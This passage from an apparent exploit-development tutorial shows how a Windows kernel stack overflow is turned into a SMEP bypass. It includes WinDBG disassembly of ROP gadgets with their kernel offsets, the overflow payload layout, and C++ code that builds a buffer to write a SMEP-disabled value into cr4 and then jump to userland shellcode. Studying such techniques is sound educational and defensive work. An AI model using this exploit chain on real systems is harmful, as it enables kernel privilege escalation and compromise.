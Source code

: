 `ret`
routine because if we can place an arbitrary value into `rcx`, there is a second gadget which allows us to `mov cr4, rcx` and then we'll have everything we need. 

**Gadget 2** is nested within the `KiEnableXSave` kernel routine as follows (with some snipping) in WinDBG:
```
kd> uf nt!KiEnableXSave
nt!KiEnableXSave:

---SNIP---

nt! ?? ::OKHAJAOM::`string'+0x32fc:
fffff800`1105142c 480fbaf112      btr     rcx,12h
fffff800`11051431 0f22e1          mov     cr4,rcx // Gadget at offset from nt: +0x3D6431
fffff800`11051434 c3              ret
```

So with these two gadgets locations known to us, as in, we know their offsets relative to the kernel base, we can now implement them in our code. So to be clear, our payload that we'll be sending will look like this when we overwrite the stack: 
+ 'A' characters * 2056
+ our `pop rcx` gadget
+ The value we want `rcx` to hold
+ our `mov cr4, rcx` gadget
+ pointer to our shellcode.

So for those following along at home, we will overwrite `rip` with our first gadget, it will pop the first 8 byte value on the stack into `rcx`. What value is that? Well, it's the value that we want `cr4` to hold eventually and we can simply place it onto the stack with our stack overflow. So we will pop that value into `rcx` and then the gadget will hit a `ret` opcode which will send the `rip` to our second gadget which will `mov cr4, rcx` so that `cr4` now holds the SMEP-disabled value we want. The gadget will then hit a `ret` opcode and return `rip` to where? To a pointer to our userland shellcode that it will now run seemlessly because SMEP is disabled. 

You can see this implemented in code here:
```cpp
 BYTE input_buff[2088] = { 0 };

    INT64 pop_rcx_offset = kernel_base + 0x146580; // gadget 1
    cout << "[>] POP RCX gadget located at: 0x" << pop_rcx_offset << endl;
    INT64 rcx_value = 0x70678; // value we want placed in cr4
    INT64 mov_cr4_offset = kernel_base + 0x3D6431; // gadget 2
    cout << "[>] MOV CR4, RCX gadget located at: 0x" << mov_cr4_offset << endl;


    memset(input_buff, '\x41', 2056);
    memcpy(input_buff + 2056, (PINT64)&pop_rcx_offset, 8); // pop rcx
    memcpy(input_buff + 2064, (PINT64)&rcx_value, 8); // disable SMEP value
    memcpy(input_buff + 2072, (PINT64)&mov_cr4_offset, 8); // mov cr4, rcx
    memcpy(input_buff + 2080, (PINT64)&shellcode_addr, 8); // shellcode
```

## CR4 Value
Again, just following along with Abatchy, I'll go ahead and place the value `0x70678` into `cr4`. In binary, `1110000011001111000` which would mean that the 20th bit, the SMEP bit, is set to `0`. You can read more about what values to input here on j00ru's [blog post about SMEP](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/). 
